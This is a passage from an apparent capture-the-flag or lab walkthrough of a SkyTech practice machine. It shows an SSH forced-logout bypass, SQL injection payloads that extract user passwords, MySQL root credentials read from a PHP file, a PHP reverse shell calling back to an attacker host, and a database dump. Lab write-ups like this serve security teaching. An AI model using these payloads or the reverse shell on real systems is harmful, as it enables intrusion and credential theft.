 ```shell_session
Connection to 10.2.0.104 closed.
```

As can be seen in the output above, before being presented with a prompt, the session was automatically closed by the host. However, as it's possible to specify a command to be automatically executed when using SSH, I was able to get a shell by connecting using `proxychains ssh john@10.2.0.104 /bin/bash`.

Listing the contents of `/home` reveals two other users that possibly exist on the website; `sara` and `william`:

```
drwxr-xr-x  5 root    root    4096 Jun 20  2014 .
drwxr-xr-x 24 root    root    4096 Jun 20  2014 ..
drwx------  2 john    john    4096 Jun 20  2014 john
drwx------  2 sara    sara    4096 Jun 20  2014 sara
drwx------  2 william william 4096 Jun 20  2014 william
```

Using the previously identified SQL injection with these usernames and the `skytech.com` domain that was revealed when using the initial SQL injection, I was able to modify it to extract their SSH credentials by using `sara@skytech.com'#` and `william@skytech.com'#` as the e-mail address in each request, which gave me the following credentials:

* `sarah:ihatethisjob`
* `william:senseable`

In order to try and harvest more credentials, I took a look at the contents of `/var/www/login.php` to find the MySQL credentials, which were revealed on line 3:

```php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
```

Next, to enable me to use the backspace key to correct typos instead of having to keep re-typing commands, I created a reverse shell using PHP by running `ncat -v -l -p 4444` locally and running `php -r '$sock=fsockopen("10.2.0.3",4444);exec("/bin/sh -i <&3 >&3 2>&3");' &` on the host shell.

Once I had a slightly upgraded shell, I proceeded to enumerate the MySQL database to see what other credentials I could find, but there were no more users to be found:

```shell_session
$ mysql -u root -p -e 'show databases;'
Enter password: root
Database
information_schema
SkyTech
mysql
performance_schema
$ mysql -u root -p -e 'show tables;' SkyTech;
Enter password: root
Tables_in_SkyTech
login
$ mysql -u root -p -e 'select * from login' SkyTech
Enter password: root
id	email	password
1	john@skytech.com	hereisjohn
2	sara@skytech.com	ihatethisjob
3	william@skytech.com	senseable
$
```
